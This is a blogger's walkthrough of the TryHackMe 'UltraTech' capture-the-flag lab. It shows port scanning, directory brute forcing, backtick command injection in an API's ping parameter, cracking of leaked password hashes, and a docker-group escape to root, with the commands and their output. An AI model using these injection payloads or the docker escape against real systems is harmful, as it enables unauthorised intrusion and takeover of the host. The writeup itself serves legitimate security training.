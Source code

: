 ```yaml
---
title : UltraTech - Writeup
---
```


_**Jan 07, 2021**_

[UltraTech](https://tryhackme.com/room/ultratech1) Writeup

## Nmap Scan :

```
bvr0n@kali:~$ nmap -sC -sV -p- 10.10.180.145

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp  open  http    Node.js Express framework
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Directories Brute Forcing :

```
bvr0n@kali:~$ ffuf -c -u http://10.10.180.145:8081/FUZZ -w Documents/Dirbuster/wordlist.txt
auth                    [Status: 200, Size: 39, Words: 8, Lines: 1]
```
```
bvr0n@kali:~$ ffuf -c -u http://10.10.180.145:31331/FUZZ -w Documents/Dirbuster/wordlist.txt
.htaccess               [Status: 403, Size: 300, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 295, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 300, Words: 22, Lines: 12]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 15078, Words: 11, Lines: 7]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 6092, Words: 393, Lines: 140]
javascript              [Status: 301, Size: 328, Words: 20, Lines: 10]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 6]
server-status           [Status: 403, Size: 304, Words: 22, Lines: 12]
```
In /robots.txt we found this :
```
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```
Goin to `/utech_sitemap.txt` give us this :
```
/
/index.html
/what.html
/partners.html
```

`/partners.html` seems to be a login page, inspecting the code source and checking what the API does, and this part caught my eyes :
```js
 function checkAPIStatus() {
        const req = new XMLHttpRequest();
        try {
            const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
            req.open('GET', url, true);
            req.onload = function (e) {
                if (req.readyState === 4) {
                    if (req.status === 200) {
                        console.log('The api seems to be running')

```
I tried going to `http://10.10.180.145:8081/ping?ip=10.10.180.145` , And it seems like Code Execution :
```
PING 10.10.180.145 (10.10.180.145) 56(84) bytes of data.
64 bytes from 10.10.180.145: icmp_seq=1 ttl=64 time=0.016 ms

--- 10.10.180.145 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.016/0.016/0.016/0.000 ms
```
I tried to execute other commands and it worked :
```
http://10.10.180.145:8081/ping?ip=10.10.180.145%20`whoami`
ping: www: Temporary failure in name resolution 

http://10.10.180.145:8081/ping?ip=10.10.180.145%20`ls`
ping: utech.db.sqlite: Name or service not known 
```

That file contained password hashes for 2 accounts : `admin` & `r00t`, Let's crack them using an [Online Tool](https://md5decrypt.net/) :
```
r00t : f357a0c******63c7c7b76c1e7543a32 : n****06 
admin : 0d0ea5111e3c1******c1684e3b9be84 : mr****fy 
```

When we login we get this : 
```
Restricted area

Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1
```

## Internal Enum :

Since we have `r00t` credentials, Let's login to SSH.

After running id looks like we are in a docker :
```
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

We then check [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) : 
```
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

This command won't work because there is no image named alphinen but we do have bash as image :
```
r00t@ultratech-prod:/tmp$ docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                       PORTS               NAMES
aee9902a5c43        495d6437fc1e        "docker-entrypoint.s…"   19 minutes ago      Up 17 minutes                                    cocky_goodall
7beaaeecd784        bash                "docker-entrypoint.s…"   18 months ago       Exited (130) 18 months ago                       unruffled_shockley
696fb9b45ae5        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_varahamihira
9811859c4c5c        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_volhard
```
Executing this command give us root :
```
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
root@41ff56823b91:/# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
root@41ff56823b91:/#
```

Thank's [m3dsec](https://github.com/m3dsec) for the reference ;)

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](../../index.md)

<br>

